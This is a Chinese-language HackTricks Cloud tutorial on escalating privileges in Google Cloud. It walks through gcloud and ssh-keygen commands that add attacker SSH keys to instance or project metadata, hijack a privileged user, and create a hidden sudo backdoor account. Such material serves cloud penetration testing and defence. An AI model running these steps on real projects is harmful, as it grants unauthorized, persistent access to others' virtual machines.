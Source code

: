 # GCP - 添加自定义SSH元数据

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

- 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
- 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
- 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs收藏品](https://opensea.io/collection/the-peass-family)
- **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
- 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## 修改元数据 <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

如果攻击者获得必要的权限，实例上的元数据修改可能会导致**重大安全风险**。

### **将SSH密钥合并到自定义元数据中**

在GCP上，**Linux系统**通常会从[Google Compute Engine的Python Linux Guest Environment](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)执行脚本。其中一个关键组件是[accounts守护程序](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts)，它旨在**定期检查**实例元数据端点，以获取**授权的SSH公钥的更新**。

因此，如果攻击者可以修改自定义元数据，他可以使守护程序找到一个新的公钥，该公钥将被处理并**集成到本地系统**中。该密钥将被添加到现有用户的`~/.ssh/authorized_keys`文件中，或者根据密钥的格式，可能会创建一个具有`sudo`权限的新用户。攻击者将能够 compromise 主机。

### **将SSH密钥添加到现有特权用户**

1. **检查实例上现有的SSH密钥：**
- 执行命令描述实例及其元数据，以查找现有的SSH密钥。输出中的相关部分将位于`metadata`下，特别是`ssh-keys`键下。
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- 注意SSH密钥的格式：用户名在冒号之前，用冒号分隔。

2. **为SSH密钥元数据准备文本文件：**
- 将用户名及其对应的SSH密钥的详细信息保存到名为`meta.txt`的文本文件中。这对于在添加新密钥时保留现有密钥至关重要。

3. **为目标用户(`alice`在此示例中)生成新的SSH密钥：**
- 使用`ssh-keygen`命令生成新的SSH密钥，确保注释字段(`-C`)与目标用户名匹配。
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- 将新的公钥添加到`meta.txt`，模仿实例元数据中找到的格式。

4. **更新实例的SSH密钥元数据：**
- 使用`gcloud compute instances add-metadata`命令将更新后的SSH密钥元数据应用于实例。
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **使用新的SSH密钥访问实例：**
- 使用新密钥连接到实例的SSH，以在目标用户(`alice`在此示例中)的上下文中访问shell。
```bash
ssh -i ./key alice@localhost
sudo id
```

### **创建一个新的特权用户并添加SSH密钥**

如果没有找到有趣的用户，可以创建一个新用户，并赋予该用户`sudo`权限：
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### 在项目级别添加SSH密钥 <a href="#sshing-around" id="sshing-around"></a>

可以通过**在项目级别应用SSH密钥**来扩大在云环境中对多个虚拟机（VMs）的SSH访问范围。这种方法允许对项目中未明确阻止项目范围SSH密钥的任何实例进行SSH访问。以下是简要指南：

1. **在项目级别应用SSH密钥：**
- 使用`gcloud compute project-info add-metadata`命令将`meta.txt`中的SSH密钥添加到项目的元数据中。此操作确保SSH密钥在项目中的所有VM中被识别，除非VM启用了“阻止项目范围SSH密钥”选项。
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **使用项目范围密钥SSH进入实例：**
- 使用项目范围SSH密钥，您可以SSH进入项目中的任何实例。未阻止项目范围密钥的实例将接受SSH密钥，从而授予访问权限。
- 直接SSH进入实例的方法是使用`gcloud compute ssh [INSTANCE]`命令。此命令使用您当前的用户名和在项目级别设置的SSH密钥尝试访问。


# 参考资料
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)
